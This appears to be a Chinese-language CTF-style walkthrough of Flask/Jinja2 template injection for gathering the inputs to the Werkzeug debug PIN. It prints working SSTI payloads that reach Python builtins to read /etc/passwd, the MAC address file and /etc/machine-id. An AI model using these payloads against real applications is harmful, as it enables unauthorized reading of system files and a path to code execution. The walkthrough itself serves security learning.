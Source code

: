 

1. **flask用户名可以通过读取/etc/passwd来知道**

```
 {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/etc/passwd','r').read() }}{% endif %}{% endfor %}
```

![image-20240528215609282](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405282156392.png)

**2.app.py的绝对路径，可从报错信息中得到**

```
/usr/local/lib/python3.7/site-packages/flask/app.py
```

![image-20240528215740851](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405282157925.png)

**3.当前电脑的MAC地址**

我们可以读取/sys/class/net/eth0/address来获得mac的16进制：

```
{{{}.__class__.__mro__[-1].__subclasses__()[102].__init__.__globals__['open']('/sys/class/net/eth0/address').read()}}

```

![image-20240528215837331](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405282158401.png)

我们去掉：，转化为10进制

得到

```
print(int('0a09795f7b4c',16))  //将一个十六进制字符串转换为十进制整数

11035807284044
```

**4.机器的id**

linux的id一般存放在/etc/machine-id或/proc/sys/kernel/random/boot_i，有的系统没有这两个文件，windows的id获取跟linux也不同。

对于docker机则读取读取/proc/self/cgroup获取get_machine_id()(docker后面那段字符串)

使用如下:

```python
{% for x in {}.__class__.__base__.__subclasses__() %}
	{% if "warning" in x.__name__ %}
		{{x.__init__.__globals__['__builtins__'].open('/etc/machine-id').read() }}
	{%endif%}
{%endfor%}
```

得到

![image-20240528220204647](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405282202761.png)
